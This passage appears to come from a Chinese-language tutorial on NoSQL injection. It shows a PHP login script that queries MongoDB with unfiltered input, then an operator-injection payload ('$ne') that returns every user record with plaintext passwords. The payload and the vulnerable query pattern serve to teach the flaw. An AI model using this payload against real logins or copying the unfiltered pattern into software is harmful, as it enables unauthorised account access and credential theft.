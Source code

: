 ```php
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

如下，当正常用户想要登陆 whoami 用户时，POST 方法提交的数据如下：

```php
username=whoami&password=657260
```

进入 PHP 后的程序数据如下：

```php
array(
    'username' => 'whoami',
    'password' => '657260'
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'whoami', 'password':'657260'})
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
```

我们从代码中可以看出，这里对用户输入没有做任何过滤与校验，那么我们可以通过 `$ne` 关键字构造一个永真的条件就可以完成 NoSQL 注入：

```php
username[$ne]=1&password[$ne]=1
```

如下图所示，成功查出所有的用户信息，说明成功注入了一个永真查询条件：

![image-20210724003600838](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ae725c97a83f21148e3f440acdf91357747a6111.png)

提交的数据进入 PHP 后的数据如下：

```php
array(
    'username' => array('$ne' => 1),
    'password' => array('$ne' => 1)
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':{$ne:1}, 'password':{$ne:1}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
```
